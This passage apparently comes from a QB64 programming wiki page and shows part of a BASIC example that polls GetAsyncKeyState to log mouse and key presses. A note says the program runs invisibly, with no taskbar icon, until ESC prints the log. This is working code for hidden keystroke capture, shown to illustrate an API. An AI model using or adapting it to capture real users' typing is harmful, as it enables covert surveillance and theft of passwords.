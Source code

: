   IF GetAsyncKeyState(4) THEN
    a = a + 1
    theitem$(a) = "{MOUSE MIDDLE}"
    DO
    LOOP UNTIL GetAsyncKeyState(4) = 0
  END IF
  IF GetAsyncKeyState(8) THEN
    theitem$(a) = theitem$(a) + "{BS}"
    DO
    LOOP UNTIL GetAsyncKeyState(8) = 0
  END IF
  IF GetAsyncKeyState(9) THEN
    theitem$(a) = theitem$(a) + "{TAB}"
    DO
    LOOP UNTIL GetAsyncKeyState(9) = 0
  END IF
  IF GetAsyncKeyState(&HD) THEN
    a = a + 1
    theitem$(a) = "{ENTER}"
    DO
    LOOP UNTIL GetAsyncKeyState(&HD) = 0
  END IF
  IF GetAsyncKeyState(&H14) THEN
    theitem$(a) = theitem$(a) + "{CAPS LOCK}"
    DO
    LOOP UNTIL GetAsyncKeyState(&H14) = 0
  END IF
  IF GetAsyncKeyState(&H20) THEN
    theitem$(a) = theitem$(a) + " "
    DO
    LOOP UNTIL GetAsyncKeyState(&H20) = 0
  END IF
  IF GetAsyncKeyState(&H1B) THEN
    theitem$(a) = theitem$(a) + "{ESC}"
    EXIT DO 'ESC key exits loop and prints logged key presses
  END IF
LOOP

_SCREENSHOW 'makes program visible with ESC key press
FOR b = 0 TO a
  PRINT theitem$(b)
  IF b MOD 20 = 19 THEN COLOR 12: PRINT "press any key": SLEEP: COLOR 7
NEXT 

'''<sub>Code by Cyperium</sub>
>  *Note:* The program will run invisibly without a program icon appearing in the task bar until the ESC key is pressed and the log will be displayed.

<p style="text-align: center">([#toc](#toc))</p>

## Keyboard Lock Settings

